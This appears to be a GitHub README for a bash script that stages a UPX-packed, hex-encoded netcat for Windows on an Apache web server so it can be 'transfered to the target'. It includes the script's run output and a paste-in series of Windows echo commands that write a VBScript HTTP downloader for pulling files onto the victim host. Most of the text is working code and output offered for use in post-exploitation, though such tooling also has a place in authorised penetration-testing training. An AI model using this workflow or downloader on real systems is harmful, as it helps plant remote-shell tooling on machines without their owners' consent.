 # netcat_for_windows
A small bash script that creates an executable version of netcat for Windows.

This script starts an apache2 webserver, clones nc.exe, converts the clone to hex and moves file to /var/www/html ready to be downloaded for use via the webserver. 

## Usage
This script was written to help send a Windows compatible netcat and make it accessible to be downloaded via the webserver. 

`./necat2hex4ft.sh`

```######################################################################
   This script starts an Apache2 server, clones nc.exe, converts it
             into hex and adds to /var/www/html file
######################################################################
Do you want to continue? y/n: y
                      Apache2 Server Started...
######################################################################
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) /home/parallels/Tools/nc.cmd
nc.cmd
######################################################################
Success! /var/www/html/nc.cmd is ready to be transfered to the target! 
######################################################################
```



You may need to create a HTTP Downloader which can be done by copying and pasting the following code and pasting it to the Windows CLI:


```echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs```
